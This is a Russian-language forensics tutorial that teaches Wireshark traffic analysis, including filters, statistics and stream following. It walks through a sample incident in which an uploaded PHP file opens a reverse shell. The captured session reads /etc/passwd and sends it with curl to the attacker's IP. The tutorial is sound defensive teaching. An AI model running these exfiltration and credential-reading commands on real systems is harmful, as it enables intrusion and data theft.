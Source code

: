 ```yaml
---
title: "Инструкция по тому, как попасть в сети"
description: ""
date: 2024-03-04
summary: "А что, если обратной дороги нет?"

series: ["Погружение в forensics"]
series_order: 1

tags: ["forensics"]
showAuthor: true
authors:
  - "exc3pti0n"
---
```


Что делать со скомпрометированными системами мы разобрались. Но что, если данных на диске недостаточно для криминалистического расследования? 
Например,  мы замечаем резкую нагрузку на сеть или обнаруживаем перенаправление на какие-то левые IP-адреса. Чтобы разобраться в подозрительных вещах, мы обращаемся к анализу сетевой активности, и в этом нам помогают так называемые "снифферы" - эти инструменты устанавливают наш сетевой адаптер в определенный режим, который позволяет принимать все пакеты в эфире, вне зависимости от того, предназначаются ли они для нашего устройства или нет. 

Терпеливо выслушав жалобы заказчика, форензик собирает трафик, получает файлик с дампом и идет смотреть, что же там произошло.

## Что нужно знать, чтобы не грепать по "CTF{"

Для анализа форензик имеет у себя в арсенале хотя бы один инструмент для анализа дампов трафика. Пожалуй, самым популярным сниффером, с которым можно столкнуться, является [Wireshark](https://www.wireshark.org/download.html). Для того, чтобы начать работать с этим инструментом, малыш должен знать некоторые вещи, которые будут полезны при анализе трафика.

### Буйство красок: какой цвет к чему?

Для удобства в Wireshark предусмотрено цветное представление пакетов и протоколов.

![](img/one.png)

*Дефолтное представление цветов можно посмотреть в разделе* `View` -> `Coloring Rules..`.

1. **Красным цветом** помечаются пакеты с ошибками в передаче данных. Например, в контексте сетевых атак они могут быть интересны как подозрение на DDoS, так что к ним стоит присмотреться.
2. **Черным цветом** помечаются пакеты, которые повреждены на этапе захвата или захвачены не полностью.
3. **Темно-зеленым цветом** помечаются пакеты, которые вызывают предупреждения или ошибки, но не являются критическими.
4. **Зеленым цветом** помечаются пакеты с данными или запросами, которые успешно переданы и обработаны. Обычно в них и лежит все самое интересное.

### Фильтрация или Что полезно для базового анализа

Чтобы ускорить скрупулезный анализ PCAP, форензику приходится прибегать к использованию фильтров. Здесь будут перечислены те, с которыми малыш будет сталкиваться чаще всего:

- `http.request` - отображение HTTP-запросов: полезно в контексте понимания того, какой хост за чем обращался к другому - загрузка файлов, страниц или внедрение вредоносных запросов.
- `ip.src eq <IP-address>` и `ip.dst eq <IP-address>` - если нам интересно посмотреть на активность с конкретного подозрительного IP - какие запросы отправлялись и принимались данным хостом.
- `tcp.port eq <port>` - если надо просмотреть, какие пакеты отсылались на интересующий порт.
- `http` и `!arp` - разумеется, фильтрация по интересующим протоколам.

Также в инструменте присутствует некий синтаксис, а-ля логические операции, которые позволяют эффективно применять фильтры. Малыш может использовать `and` или `or` для объединения условий, применять `==` или `!=` для равенства условию или использовать `<=` и `>=` для проверки длины пакетов `frame.len`, если ему это понадобится. 

### Функционал, который нам очень пригодится

Когда форензик получает на руки интересный PCAP, он осматривается - какие пакеты летали по сети, каких больше всего, что может быть интересного. Для этого он заглядывает в `Statistics` -> `Protocol Hierarchy` и смотрит на статистику:

![](img/two.png)

Также полезно узнать, с каких хостов отправлялись пакеты, и кого мы поймали во время сбора трафика. Для этого следует перейти на вкладку `Statistics` -> `Endpoint`.

![](img/three.png)

Осмотревшись, форензик ищет интересные запросы и смотрит внутрь пакета: есть ли там что-то, за что можно зацепиться глазу? 

![](img/four.png)

Если нашел любопытную информацию, надо посмотреть на поток пакетов - для этого следует нажать ПКМ на интересующий пакет, и выбрать нужный поток: `Follow` -> `HTTP Stream`. В процессе наблюдения можно обнаружить такую картину:

![](img/five.png)

Конечно, хочется копнуть поглубже, и достать что-то более весомое, например, подозрительные файлы. Тогда надо заглянуть  в `File` -> `Export Objects` и выбрать нужный протокол, например, `HTTP..`.

![](img/six.png)

Это базовые вещи, которые могу пригодиться малышу для анализа трафика.

## Не словом, а делом: смотрим на фрагмент атаки и думаем, что произошло

*Команда разработчиков жалуется, что на веб-сервере оказался какой-то файл, которого раньше не было, да еще и шумит в сети... Надо разобраться.*

Для начала просмотрим иерархию протоколов:

![](img/seven_one.png)

Кажется, нам следует обратить внимание на HTTP. Просмотрим,  каких хостов отправлялись пакеты:

![](img/seven.png)

Как оказывается, мы наблюдаем взаимодействие только двух хостов. 
Проанализируем кусочек трафика и придем к выводу, что запросы на веб-сервер прилетают с IP-адреса `117.11.88.124`.

![](img/eight.png)

В данной ситуации, файл мог быть отправлен с этого IP-адреса. Предположим это, и отфильтруем данные следующим образом: `http and ip.src== 117.11.88.124`

![](img/nine.png)

Первое, что нас может смутить - POST-запрос на страницу upload.php на веб-сервер, можно предположить, что это запрос на загрузку файла. Заглянем в поток, чтобы посмотреть содержимое пакета.

![](img/ten.png)

И по итогу наблюдаем создание обратной оболочки на хост `117.11.88.124:8080`.
После того, как мы узнали, что `image.jpg.php` является вредоносным файлом, следует посмотреть, какая активность была зафиксирована после запуска этого файла. Для этого находим подходящий запрос: 

![](img/eleven.png)

И анализируем поток, который следует после этого запуска:

```
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ uname -a
Linux ubuntu-virtual-machine 6.2.0-37-generic #38~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Thu Nov 2 18:01:13 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www/html/reviews/uploads
$ ls /home
ubuntu
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<DELETED>
...
gdm:x:128:134:Gnome Display Manager:/var/lib/gdm3:/bin/false
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
$ curl -X POST -d /etc/passwd http://117.11.88.124:443/
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0
100 368 100 357 100 11 56774 17[393 bytes missing in capture file].$
```

Наблюдаем удаленное выполнение команд и попытку стащить файл `passwd`.

## Куда стоит полезть еще?

- [Wireshark — подробное руководство по началу использования](https://habr.com/ru/articles/735866/) - полезная статья для тех, кто хочет прощупать инструмент.
- [malware-traffic-analysis.net](https://www.malware-traffic-analysis.net/index.html) - мастхев для тех, кому всегда мало: здесь лежат небольшие отчеты по анализу, туториал от автора ресурса, а также куча дампов, собранных с вредоносной активности реальной малвари.
- [Cyberdefenders.org](https://cyberdefenders.org/) - здесь, помимо прочих блутим-кейсов, лежит и категория Network Forensic, из которой можно выудить интересные PCAP для анализа и практики - идеально для малышей. Задачки с интересными атаками, которые я советую порешать: [PoisonedCredentials](https://cyberdefenders.org/blueteam-ctf-challenges/poisonedcredentials/), [OpenWire](https://cyberdefenders.org/blueteam-ctf-challenges/openwire/), [PsExec Hunt](https://cyberdefenders.org/blueteam-ctf-challenges/psexec-hunt/) (кстати, на первые два я писала подробные райтапы с объяснением атак, можно посмотреть [здесь](https://habr.com/ru/articles/775414/) и [здесь](https://habr.com/ru/articles/784908/))

На этом все. И не забывай, что всегда надо лезть туда, куда не просят)

![](img/lastpic.png)
